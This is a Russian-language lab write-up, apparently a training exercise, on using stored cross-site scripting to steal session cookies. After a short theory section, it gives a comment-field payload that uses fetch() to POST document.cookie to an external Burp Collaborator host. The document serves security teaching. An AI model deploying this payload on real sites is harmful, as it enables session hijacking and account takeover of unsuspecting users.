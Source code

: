 # Exploiting cross-site scripting to steal cookies

## Theory

<h3>Использование межсайтового скриптинга для кражи файлов cookie</h3>

Кража файлов cookie — это традиционный способ использования XSS. Большинство веб-приложений используют файлы cookie для обработки сеансов. Вы можете использовать уязвимости межсайтового скриптинга, чтобы отправлять файлы cookie жертвы в свой собственный домен, а затем вручную вставлять файлы cookie в браузер и выдавать себя за жертву.

На практике этот подход имеет ряд существенных ограничений:
* Жертва может не войти в систему
* Многие приложения скрывают свои файлы cookie от JavaScript, используя флаг HttpOnly
* Сеансы могут быть заблокированы для дополнительных факторов, таких как IP-адрес пользователя
* Время сеанса может истечь, прежде чем вы сможете его перехватить.

## Writeup

Главная страница:

![](./assets/1.png)

Перейдем к посту и спустимся в низ страницы. Мы можем заметить поле для комментария.

![](./assets/2.png)

Запустим Burp Collaborator Client и скопируем DNS.

![](./assets/3.png)

Запишем в поле комментария наш эксплоит, вставив скопированный ранее DNS. Код эксплоита:
```
<script>
fetch('https://0ghj9u6w3z0rm7ezz40rp8iplgr8fx.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

![](./assets/4.png)

Проверим Burl Collaborator Client. Там мы можем обнаружить cookie.

![](./assets/5.png)

Получаем ответ от сервера.

![](./assets/6.png)